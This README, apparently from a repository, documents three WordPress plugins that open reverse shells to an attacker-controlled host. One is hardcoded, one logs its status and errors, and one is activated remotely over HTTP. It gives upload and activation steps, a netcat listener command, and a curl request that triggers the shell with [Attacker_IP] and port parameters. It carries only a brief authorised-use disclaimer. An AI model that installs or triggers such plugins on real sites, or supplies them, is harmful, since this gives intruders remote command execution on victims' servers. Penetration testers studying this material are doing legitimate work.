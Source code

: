 ## Simple Reverse Shell

### Description
This plugin creates a reverse shell connection upon activation. The IP and port are hardcoded and should be modified before use. Intended for educational and ethical testing purposes only.

### Installation
1. Edit the plugin file `simple-reverse-shell.php` and replace `YOUR_IP_ADDRESS` and `YOUR_PORT` with your IP address and listening port.
2. Zip the modified plugin file.
3. Navigate to your WordPress admin panel.
4. Go to Plugins > Add New > Upload Plugin.
5. Choose the zip file and click Install Now.
6. Once installed, activate the plugin.

### Usage
Ensure you have a netcat listener running on the specified IP and port before activating the plugin. To start a listener, you can use the following command in your terminal:
```
nc -lvnp YOUR_PORT
```
Replace `YOUR_PORT` with the port number you've set in the plugin file.

### Troubleshooting
If the connection is not established, check the following:
- Your server's firewall allows outbound connections on the specified port.
- Your IP address and port are correctly set in the plugin file.
- Your netcat listener is running and configured to listen on the correct port.

---

## WP Rev Shell with Error Logging

### Description
This reverse shell plugin includes timestamp logging. The `log.txt` file in the site's root directory contains shell status and errors.

### Installation
1. Zip the plugin file `wp-rev-shell-with-error-logging.php`.
2. Follow the same installation steps as the Simple Reverse Shell plugin.

### Usage
Before activating the plugin, ensure your netcat listener is running as described in the Simple Reverse Shell section.

### Troubleshooting
If you encounter issues, check the `log.txt` file in the root directory of your WordPress installation for detailed error messages and timestamps.

---

## WordPress Reverse Shell Remotely Activated

### Description
This reverse shell plugin can be activated via an HTTP request, allowing for remote activation with dynamic IP and port settings.

### Installation
1. Zip the plugin file `wordpress-reverse-shell-remotely-activated.php`.
2. Follow the same installation steps as the Simple Reverse Shell plugin.

### Usage
Activate the plugin remotely by sending an HTTP request with the IP and port parameters. Use the following `curl` command:
```
curl 'http://[Your_WordPress_Site]/wp-content/plugins/wordpress-reverse-shell-remotely-activated/wordpress-reverse-shell-remotely-activated.php?activate=1&ip=[Attacker_IP]&port=[Attacker_Port]'
```
Replace `[Your_WordPress_Site]` with your WordPress site URL, `[Attacker_IP]` with your IP address, and `[Attacker_Port]` with your listening port.

### Troubleshooting
Check the `log.txt` file for any error messages. Ensure that:
- The plugin file path in the `curl` command is correct.
- Your server allows HTTP requests with query parameters.
- Your netcat listener is correctly set up.

For all plugins, ensure that you have the necessary permissions to install and activate plugins on the WordPress site. Use these tools responsibly and only on systems where you have authorization to do so. Unauthorized use may be illegal and unethical.
